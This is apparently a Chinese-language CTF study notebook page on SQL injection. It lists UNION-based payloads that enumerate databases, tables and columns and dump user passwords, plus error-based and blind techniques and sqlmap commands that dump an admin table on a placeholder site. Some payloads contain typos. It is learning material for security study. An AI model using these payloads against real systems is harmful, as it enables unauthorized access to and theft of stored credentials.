

repository: huaeryi/notebook · page: ctf/web/sql/index.html · generator: mkdocs

# SQL注入

### SQL基础
* RDBMS关系型数据库管理系统 库-表-列-行


### 注入
#### 有回显
* `SELECT first_name, last_name FROM users WHERE user_id = '` +`1' or '1234' = '1234` + `'` 有趣的事情发生了，这条注入后的查询语句可以查询所有id的用户
* `...` + `1' or 1=1 order by 3 #` + `'`猜解sql查询语句中的字段数,巧妙地使注入符合语法，以字段3排序，若失败则只有3-1=2列
* `1' union select 1,2 #` 联合查询
* `1' union select 1,database() #` 查询数据库名 
* `1' union selcet 1, group_concat(table_name) from information_schema.tables where table_schema=database() #` 查询当前数据库的表名
* `1'and 1=2 union selcet 1,group_concat(column_name) from information_schema.columns where table_name='users' #` 获取表中字段名，1=2使第一个查询失效，或者使用limit
* `1'and 1=2 union selcet group_concat(user_id, first_name, last_name),group_concat(password) from users #` 查询数据

* 报错注入构造错误信息获取内容
  * xpath
  * extractvalue()
#### sqlmap
* `sqlmap -h` 帮助文档
* `sqlmap -u http://xxx.com/1.php?id＝11 --dbs` 查看数据库名
* `sqlmap -u http://xxx.com/1.php?id＝11 --current-db` 当前数据库信息
* `sqlmap -u http://xxx.com/1.php?id＝11 -D a --tables` 当前数据库信息，'a' 为指定数据库名称
* `sqlmap -u http://xxx.com/1.php?id＝11 -D a -T admin --columns` 列出指定表名的所有列名，'admin' 为指定表名称
* `sqlmap -u http://xxx.com/1.php?id＝11 -D a -T admin -C name,password --dump` 输出表名指定列名字段的值数据，'name，password' 为指定字段名称

#### 无回显
* 布尔盲注-回显不同
* 时间盲注-响应时间不同
* 报错盲注


### 注入类型
#### 整型

#### 字符型
